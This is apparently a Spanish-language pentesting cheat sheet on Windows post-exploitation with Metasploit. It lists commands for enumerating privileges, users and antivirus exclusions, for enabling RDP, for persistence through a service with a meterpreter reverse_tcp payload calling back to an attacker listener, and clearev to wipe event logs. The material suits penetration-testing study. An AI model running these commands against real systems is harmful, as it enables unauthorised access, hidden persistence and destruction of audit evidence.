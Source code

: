```yaml
---
title: "Post Explotación"
layout: "single"
category: "Windows Pentesting"
slug: "windows-pentesting/post-explotación"
date: "2025-09-30"
---
```


### Enumeracion post explotación
#### Enumerar privilegios
Una vez obtenido acceso a la máquina, podemos ver los privilegios que posee el usuario comprometido.
```bash
search win_privs
set SESSION <num>
run
```

#### Enumerar usuarios logueados o recientes
```bash
search enum_logged_on_users
set SESSION <num>
run
```

#### Enumerar software instalado
```bash
search enum_applications
set SESSION <num>
run
```

#### Enumerar exclusiones del antivirus
```bash
search enum_av_excluded
set SESSION <num>
run
```

#### Enumerar equipos del dominio (si pertenece a uno)
```bash
search enum_computers
set SESSION <num>
run
```

### Habilitar RDP
```bash
search enable_rdp
set SESSION <num>
run
```

### Persistencia con persistance_service Metasploit
```bash
search platform:windows persistence

### UN BUEN MÓDULO
persistance_service
## utilizamos este payload para el modulo
set payload windows/meterpreter/reverse_tcp

### Para conectarnos a la "persistencia"
## tener cuenta el LHOST Y LPORT configurados en la persistencia para conectarnos usando los mismos datos
use multi/handler
set payload windows/meterpreter/reverse_tcp (el mismo que usamos anteriormente)
set LHOST <eth0 o la que corresponda)
run

```

### Eliminar logs de eventos (Metasploit)
Teniendo una sesión de meterpreter establecida, metemos el comando:
```bash
clearev
```
